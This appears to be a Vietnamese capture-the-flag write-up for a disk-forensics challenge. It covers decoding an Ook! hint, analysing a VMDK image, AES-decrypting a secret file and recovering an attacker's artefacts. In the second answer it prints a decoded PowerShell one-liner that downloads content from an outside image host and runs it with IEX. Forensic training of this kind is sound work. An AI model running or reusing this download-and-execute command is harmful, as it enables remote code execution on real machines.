





## Description 
> Our computer performance was altered by a malicious individual. We have managed to make a copy of the altered computer and we need immediately to obtain some answers regarding this file. Due to the stressful situation, one of our colleagues managed to write just a single word in his notebook:

Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook. Ook? Ook. Ook. Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook? Ook. Ook? Ook. Ook? Ook. Ook! Ook! Ook? Ook! Ook. Ook? Ook. Ook? Ook. Ook? Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook. Ook! Ook! Ook! Ook. Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook. Ook. Ook. Ook! Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook.

Your input is needed on the following aspects and you should remember that wecracktheworlds is an important key in this process.

Files are available at the following links:

https://storage.googleapis.com/cyberedu-production/dctf22-ok-chall/unintended.zip.000

https://storage.googleapis.com/cyberedu-production/dctf22-ok-chall/unintended.zip.001

https://storage.googleapis.com/cyberedu-production/dctf22-ok-chall/unintended.zip.002
## Link challenge 
> https://app.cyber-edu.co/challenges/4e2c22f0-89ba-11ec-ac00-ffdc527ff99d?tenant=cyberedu
## Solution
> Câu hỏi 1 : A message is received when the first task is completed. Please share it with us: (Points: 229)
- Đầu tiên về phần description, em thấy có 1 đoạn rất nhiều chữ ook, đây có thể là 1 dạng mã hoá gì đấy.
- Sau ít phút tìm kiếm thì em tìm thấy trang giải mã trực tuyến : https://www.dcode.fr/ook-language
- Giải mã ra ta được hint của đề : `autopsy`
- Về phần các file data trong đề: Sau khi tải thấy các số tương ứng với phần của 1 file zip, em sử dụng công cụ file-joiner-x64 để gộp các file lại với nhau 
- 
- Giải nén ra em được 1 fie vmdk, sử dụng FTK image để phân tích
- 
- 
- Sau khi mở lên lướt sơ qua các mục em thấy tại `Parttion2/root/Users/sunflower` có 1 vài điểm chú ý.
- Tại Document có 1 file secret1.txt có giá trị là `E5EB9479E816D06CD53062B1EF017B185D9E47B087059484EEF344810E4B06A7`. Ban đầu em nghĩ đây là hexa, nhưng decode không được. Chú ý lại đề bài thì thấy  `Your input is needed on the following aspects and you should remember that wecracktheworlds is an important key in this process.`
- Có thể đây là key của 1 loại mã hoá gì đó 
- Sau khi thử từ trang web này [https://the-x.cn/vi-VN/cryptography/Aes.aspx](https://the-x.cn/vi-VN/cryptography/Aes.aspx) em có thể giải mã được với khoá `wecracktheworlds` 
- 
> yourfirstmissioniscompleted

> Câu hỏi 2 : We know that the attacker attempted to download an infected image from one of his servers before launching the attack. Can you provide the file name? (Points: 50).
- Sau khi tìm tiếp, tại Desktop có 1 đoạn mã hoá dữ liệu powershell (chứa đuôi ps)
- Xem ở cuối file có đến 6 dấu =, đây đích thị là mã hoá base32
```
EBNVG6LTORSW2LSOMV2C4V3FMJBWY2LFNZ2F2JDXMVREG3DJMVXHIIB5EBHGK5ZNJ5RGUZLDOQQFG6LTORSW2LSOMV2C4V3FMJBWY2LFNZ2DWW2TPFZXIZLNFZEU6LSTORZGKYLNLUSHG5DSMVQW2IB5EASHOZLCINWGSZLOOQXE64DFNZJGKYLEFATWQ5DUOBZTULZPGUXHI33QGR2G64BONZSXIL3QL4YTGNZSNBRTK2TWGEXGU4DHE4UTWW2TPFZXIZLNFZEU6LSTORZGKYLNKJSWCZDFOJOSI43SEA6SATTFO4WU6YTKMVRXIICTPFZXIZLNFZEU6LSTORZGKYLNKJSWCZDFOIQC2YLSM52W2ZLOORGGS43UEASHG5DSMVQW2O23ON2HE2LOM5OSI4TFON2WY5DTEA6SAJDTOIXFEZLBMRKG6RLOMQUCSO2JIVMCAJDSMVZXK3DUOM5SAZDFMZSW4ZDFOI======
```
- Giải mã bằng cybercheff
```
 [System.Net.WebClient]$webClient = New-Object System.Net.WebClient;[System.IO.Stream]$stream = $webClient.OpenRead('https://5.top4top.net/p_1372hc5jv1.jpg');[System.IO.StreamReader]$sr = New-Object System.IO.StreamReader -argumentList $stream;[string]$results = $sr.ReadToEnd();IEX $results; defender
```
- Giải thích đoạn ps này 1 tí 
- 
- Nhìn chung attacker sẽ tải file về rồi thực thi chúng bằng ps
> p_1372hc5jv1.jpg

> Câu hỏi 3 : We know that the attacker used a password to unrar the malicious scripts downloaded from his server. Can you provide its value? (Points: 50)
- Tại mục Downloads em tìm thấy 1 file malware, đi sâu vào trong em thấy mật khẩu giải nén nằm trong tệp README.txt
- 
> infect

> Câu hỏi 4 : We suspect that the Sample 5 script contains another malicious download link. Can you determine the address? (Points: 86)
- Câu này chưa làm được =)))